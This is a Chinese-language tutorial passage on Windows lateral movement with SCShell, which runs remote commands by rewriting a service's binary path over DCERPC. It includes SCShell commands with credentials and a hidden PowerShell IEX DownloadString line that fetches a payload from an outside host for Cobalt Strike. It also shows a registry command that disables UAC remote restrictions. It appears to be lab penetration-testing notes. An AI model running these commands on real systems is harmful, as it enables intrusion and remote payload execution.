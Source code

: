 ### 无文件横向移动SCshell

SCShell是无文件横向移动工具，它依赖ChangeServiceConfigA来运行命令。该工具的优点在于它不会针对SMB执行身份验证。一切都通过DCERPC执行。无需创建服务，而只需通过ChangeServiceConfigAAPI 远程打开服务并修改二进制路径名即可（所以要事先知道目标上的服务名称）。支持py和exe两种文件类型。

+ 上传Scshell到已控服务器

+ 利用Scshell执行命令横向

大致语法规则如下

```
SCShell.exe target service payload domain username password
```

1.利用Scshell写入文件

```
SCshell.exe 192.168.30.10 Backdoor "C:\Windows\System32\cmd.exe /c systeminfo > \\192.168.30.20\smb\systeminfo.txt" . Administrator uu2fu3o@admin
```

![SCshell-smb-share](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/Intranet_horizontal/SCshell-smb-share.png)

执行systeminfo命令，并将执行内容写入smb共享中 ，但是写入的内容为0kb(很怪)，正常写入的文件大小应该为3kb，经过抓取的流量分析，发现通过SCshell调用的命令仅执行了创建文件的功能，正常写入文件的程序是执行了写入功能的

![systeminfo-faild](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/Intranet_horizontal/systeminfo-faild.png)

失败案例在创建文件之后就down掉了，服务器再次播报。似乎是网络问题导致的tcp再次重新发送失败

2.利用SCshell上线cs

```
SCshell.exe 192.168.30.10 Backdoor "C:\Windows\System32\cmd.exe /c powershell.exe -nop -w hidden -c IEX (New-Object Net.WebClinet).DownloadString('http://uu2fu3o.com/payload.ps1')" hack.com Administrator uu2fu3o@admin
```

![scshell-powershell-cs](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/Intranet_horizontal/scshell-powershell-cs.png)

### UAC Remote Restrictions

UAC远程限制，当用户以本地用户远程运行需要管理员用户的程序，都只能使用本地用户中RID为500(Adminitrator)的管理员用户来运行

需要注意的是该限制对域管用户无效，执行以下命令查看本机上用户的SID和RID

```
wmic useraccount where name='username' get sid
```

![SID-RID-PC](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/Intranet_horizontal/SID-RID-PC.png)

执行以下命令关闭UAC Remote Restrictions

```
reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```
